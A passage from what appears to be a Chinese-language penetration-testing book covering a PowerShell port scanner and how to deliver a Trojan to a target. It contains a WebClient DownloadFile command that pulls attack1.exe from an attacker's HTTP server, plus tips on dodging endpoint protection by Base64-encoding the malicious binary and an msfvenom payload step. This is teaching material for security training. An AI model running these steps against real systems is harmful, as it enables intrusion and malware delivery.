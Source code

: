 图 9.8 – PowerShell 端口扫描

如你所见，这只是将我们所学的基础知识提升到下一个层次。`1..1024` 定义了我们的端口范围，并将数组传递到 `%`；每次迭代时，都会启动一个 TCP 客户端模块，尝试连接该端口。`2>$null` 会将 `STDERR` 丢弃；换句话说，返回的错误意味着端口没有开放，响应会被丢弃。

我们从 TCP 和使用 Nmap 等工具的经验中知道，端口扫描策略有很多种；例如，半开扫描，其中 SYN 数据包被发送以引发开放端口的 `SYN-ACK` 响应，但没有通过 `ACK** `值** 完成握手。那么，在我们的快速且简易的端口扫描脚本背后到底发生了什么呢？它是一个 `Connect` 模块，用于 `TcpClient` – 该模块旨在创建 TCP 连接。它并不知道自己被用来做端口扫描。它正在尝试建立完整的三次握手，并且如果握手完成，它会成功返回。我们必须理解网络上发生了什么。

既然我们在与网络通信，那就让我们看看在需要将恶意程序传送到目标时，能做些什么。

## 通过 PowerShell 向目标传送 Trojan

你有 PowerShell 访问权限。你有一个 Trojan 文件放在 Kali 主机上，需要将其传送给目标。在这里，你可以将文件托管在 Kali 主机上，并使用 PowerShell 来避免恼人的浏览器警告和内存占用。

首先，我们使用 `python -m SimpleHTTPServer 80` 来托管文件，该命令在包含 Trojan 的文件夹中执行。当准备好后，我们可以执行一个 PowerShell 命令，利用 `WebClient` 下载文件并将其写入本地路径：

> (New-Object System.Net.WebClient).DownloadFile("http://192.168.63.143/attack1.exe", "c:\windows\temp\attack1.exe")

让我们看看在执行命令并运行 `ls` 验证时会是什么样子：

![图 9.9 – 从 HTTP 服务器下载 EXE 文件](img/Figure_9.9_B17616.jpg)

图 9.9 – 从 HTTP 服务器下载 EXE 文件

需要注意的是目标路径不是任意的；它必须存在。这个一行命令不会为你创建一个目录，所以如果你试图将其放在任何地方而没有确认主机上是否存在，可能会引发异常。假设这不是问题，并且命令已经执行完毕，我们可以`cd`进入选择的目录，看到我们的可执行文件已经准备就绪。

不过我知道你在想什么 - *像这样从网络中提取 EXE 文件并不是特别隐秘*。你说得对。任何值得一试的终端保护产品都会立即抓住这种尝试。我们需要考虑如何通过将文件转换为比普通可执行代码更不可疑的东西来偷运文件。如果我们将恶意二进制文件转换为 Base64 呢？然后，我们可以将其写入一个纯文本文件，PowerShell 可以像处理普通字符串一样处理它。让我们仔细看看。

# 在 PowerShell 中对二进制进行编码和解码

首先，我们将切换回我们的 Kali 系统，并使用`msfvenom`创建一个快速可执行的漏洞。然后，我们将通过使用`SimpleHTTPServer`将其发送到我们的 Windows 系统：

![图 9.10 – 构建和提供恶意可执行文件](img/Figure_9.10_B17616.jpg)
